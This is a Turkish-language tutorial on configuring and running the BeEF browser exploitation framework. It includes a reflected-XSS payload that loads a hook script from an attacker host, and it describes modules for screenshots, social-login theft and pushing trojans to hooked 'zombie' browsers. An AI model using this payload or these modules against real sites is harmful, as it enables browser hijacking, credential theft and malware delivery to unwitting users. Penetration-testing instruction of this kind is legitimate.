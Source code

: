 ## BeEF - The Browser Exploitation Framework

BeEF istemci taraflı çaşışan bir penetrasyon test aracıdır, kullanıcıların tarayıcılarını ele geçirerek javascript kodları çalıştırılabilir, tarayıcısı anlık olarak izlenebilir, yada farklı saldırı vektörleri için temel yapıyı oluşturabilir. BeEF 3 katmandan oluşur;

```bash
1. Saldırgan veya Saldırganların kişisel bilgisayarları
2. BeEF’in kurulu olduğu master server
3. Kurbanlar
```

Kurbanlar BeEF in attığı oltaya düştüğünde BeEF kurbanlardan bir çok veri çekmeye başlar ve verileri BeEF in kurulu olduğu ana sunucuya aktarır saldırgan ise kendi kişisel bilgisayarından BeEF in kurulu olduğu sunucuya BeEF arayüzünden bağlanarak kurbanların bilgilerini elegeçirebilir, javascript kodları çalıştırabilir, mesaj gönderebilir. (Zaaten javascript kodu çalıştırabiliyorsak yapabileceklerimizin bir sınırı yoktur :) )

### Konfigrasyon

BeEF’in konfigürasyon dosyası default olarak /etc/beef-xss dizinindeki config.yaml dosyasıdır. **/etc/beef-xss/config.yaml** dosyasını herhangi bir metin editörü ile açıp aşağıdaki adımlara göre konfigürasyon yapmalısınız.

#### Web Arayüz Ağ Kısıtlamaları

```bash
restrictions:
	permitted_hooking_subnet: "0.0.0.0/0"
	permitted_ui_subnet: "127.0.0.1/32"
```

**permitted_hooking_subnet:** Bu değişken, hangi subnetten BeEF’in arayüzüne hook yapılabileceğini belirler. Bu ayar, BeEF’in kurbanlara ulaşması için önemlidir.
**permitted_ui_subnet:** Bu değişken, hangi subnetten BeEF’in web arayüzüne giriş yapılabileceğini belirler. Bu ayar saldırganın web arayüz paneline ulaşması için önemlidir.

#### Web Sunucusu

```bash
http:
	debug: false
	host: "0.0.0.0"
	port: "3000"

	# Proxy
	public: "8.7.6.5"
	public_port: "3000"

	# Domain Name Server
	dns_host: "localhost"
	dns_port: 53

	# Web Admin Interface
	web_ui_basepath: "/ui"

	# Hook
	hook_file: "/hook.js"
	hook_session_name: "BEEFHOOK"
	session_cookie_name: "BEEFSESSION"
```

**debug:** Oluşacak hataların detaylı olarak çıktıları alınmak isteniyorsa bu değişken true olarak ayarlanmalıdır.

**host:** BeEF’in kurulu olduğu master server’ın IP adresi girilmelidir.

**port:** BeEF’in ayağa kaldırılacağı port. 3000 gibi popüler uygulamalar tarafından kullanılmayan bir port seçmek mantıklı olacaktır. Zira 80, 22 gibi portlar seçilirse sunucuda o portu kullanan diğer hizmetler ile çakıştığından sıkıntı yaşanacaktır. public ve public_port değişkenleri ise varsa bir vekil sunucu girilmesi içindir. Bu değişkenlerin set edilmesi zorunlu değildir. dns_host ve dns_port değişkenleri adından da anlaşılacağı üzere DNS host ve portunu girmemiz gereken değişkenlerdir. web_ui_basepath değişkeni, BeEF’in admin arayüzünün görüüntülenmesi istenen path değişkenidir.

**hook_file:** XSS zafiyeti bulunan hedefe entegre edilmesi gereken uzak JavaScript dosyasının yoludur.

#### Veri Tabanı

BeEF öntanımlı olarak SQLite kullanır ve veritabanı dosyası şuradadır: /var/lib/beef-xss/beef.db. Ancak MySQL ve PostgreSQL’de desteklenmektedir. Aşağıdaki ayarlardan dilerseniz veritabanını değiştirebilirsiniz. Dikkat edilmesi gereken bir nokta var; eğer Sqlite dışındaki seçeneklerden biri kullanılacak ise kullanılacak veritabanının adaptörü Gem ile yüklenmelidir.

Adımlar;

```bash
BeEF’in kurulu olduğu dizine geçmek; cd /usr/share/beef-xss
MySQL adaptörünün kurulumu; gem install "dm-mysql-adapter"
PostgreSQL adaptörünün kurulumu; gem install "dm-postgres-adapter"
```
```bash
database:
	driver: "sqlite"

	db_file: "db/beef.db"

	db_host: "localhost"
	db_port: 3306
	db_name: "beef"
	db_user: "beef"
	db_passwd: "beef"
	db_encoding: "UTF-8"
```

**driver:** Kullanılması istenilen veritabanı girilmelidir. Girilebilir değerler: sqlite, mysql, postgres
**db_file:** Eğer driver Sqlite seçilmiş ise veritabanı olarak kullanılacak dosyanın yolu. Diğer değişkenler ise eğer MySQL veya PostgreSQL seçilmiş ise bağlantı için gereken değerlerin girilmesi içindir. Eğer drive sqlite seçilmiş ise bu değerler boş bırakılabilir.

#### Yetkilendirme

BeEF’in web admin arayüzüne girmek için gerekli kullanıcı adı ve parola bu bölümde tanımlanır.

```bash
credentials:
	user:   "beef"
	passwd: "beef"
```
### BeEF’i Çalıştırmak

Bir önceki bölümde gerekli konfigürasyonu yaptıktan sonra BeEF’i ayağa kaldırmamız gerekiyor. Bunun birçok 
yolu var. Eğer Kali Linux kullanıyorsanız “Applications > Exploitation” menüzü altındaki “beef xss framework” uygulamasına tıklamanız yeterli. Gerekli servisleri başlatıp browser’da admin arayüzünü açacaktır. Kurulumu manuel olarak farklı bir sunucuya yaptıysanız 2 farklı şekilde çalıştırabilirsiniz. BeEF servisini start ederek,
BeEF’in Ruby dosyasını çalıştırarak



Kurulumu manuel olarak farklı bir sunucuya yaptıysanız tavsiyem 2. yöntem ile çalıştırmanızdır. BeEF’in Ruby dosyasından çalıştırmak için yapmanız gerekenler; BeEF’in kurulu olduğunuz dizine geçmek; cd /usr/share/beef-xs
BeEF’i çalıştırmak için; `./beef`



### XSS Zafiyeti ile BeEF Hook Dosyasını Tetiklemek

Kurulumdan sonra hook dosyanıza aşağıdaki şemadan ulaşabilirsiniz;

> http://{host}:{port}{hook_file} yani http://1.2.3.4:3000/hook.js

Hook dosyasının içerisinde kurbanı BeEF’in ağına düşürecek zararlı JavaScript kodu bulunmaktadır. XSS zafiyeti bulunan sistemde bir şekilde hook dosyası çağrılır ve kurban tarafından tetikletilir ise kurban BeEF’in ağına düşmüş olacaktır.

Örnek olarak aşağıdaki adresde Reflected XSS olduğunu varsayalım;

`http://test.com/ara.php?k=deneme` Buradaki XSS zafiyetine aşağıdaki şekilde hook dosyasını çağırtabiliriz;

`http://test.com/ara.php?k=<script src="http://1.2.3.4:3000/hook.js"></script>`



### Web Admin Arayüzü

Web admin arayüzüne yukarıda yapılan ayarlar sonucunda şu şemadan ulaşılabilir;

> http://{host}:{port}{web_ui_basepath}/panel

**Yeşil:** Komut zombi browserda çalıştırılabilir ve kurbanın bundan haberi olmaz.
**Turuncu:** Komut zombi browserda çalıştırılabilir ama kurbanın haberi olabilir.
**Beyaz:** Komutun çalıştırılabilme durumu henüz tespit edilemedi.
**Kırmızı:** Komut zombi üzerinde çalıştırılamaz.



1. Detail
  Zombinin sistemi hakkında bilgilerin olduğu sekmedir.

2. Logs
  Zombi browser üzerinde yapılmış işlemlerin zaman damgalı şekilde loglarının olduğu sekmedir.

3. Commands
  Zombi browser üzerinde komut çalıştırabileceğimiz sekmedir.

4. Rider
  Zombi browser üzerinden request gönderebileceğimiz sekmedir. “Forge Request” sekmesinden request yapabilir, 
  yapılan requestleri “History” sekmesinden görüntüleyebilirsiniz.

5. Network
  Zombi ile saldırgan arasındaki ağ bağlantısının görselleştirilmiş halinin olduğu sekmedir.

  

### BAZI KOMUTLAR

```bash
Create Alert Dialog -> Kurbana Alert Gönderir.
Raw JavaScript      -> JavaScript Enjekte Eder.
Spyder Eye          -> ScreenShot Alır.
Pretty Theft        -> Sosyal Ağ Çalma.
Fake Notification   -> Trojan Sızdırmak (Kurbana İndittirmek).
```

